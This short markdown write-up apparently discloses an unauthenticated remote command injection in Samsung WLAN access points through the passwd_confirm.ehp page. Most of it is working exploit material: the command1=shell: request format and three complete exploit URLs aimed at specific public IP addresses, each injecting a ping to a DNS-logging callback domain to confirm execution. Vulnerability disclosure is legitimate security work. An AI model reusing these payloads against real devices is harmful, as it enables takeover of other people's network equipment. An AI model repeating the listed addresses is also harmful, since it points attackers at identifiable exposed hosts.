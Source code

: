 Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.

**passwd_confirm.ehp** exists for remote command execution.

For example, execute the `ping` command through the `shell`.

Command format:`&command1=shell:ping+dnslog`

Execute commands directly through the browser without logging into the device.

**xxx/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+dnslog**

The following examples verify the existence of the vulnerability：

`http://112.170.189.193/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+e2476a71.dns.1433.eu.org`

![](3.png)
`http://220.92.38.104/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+dbcbca84.dns.1433.eu.org`

![](4.png)
`http://112.170.189.193/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+ff9949fe.dns.1433.eu.org`

![](5.png)
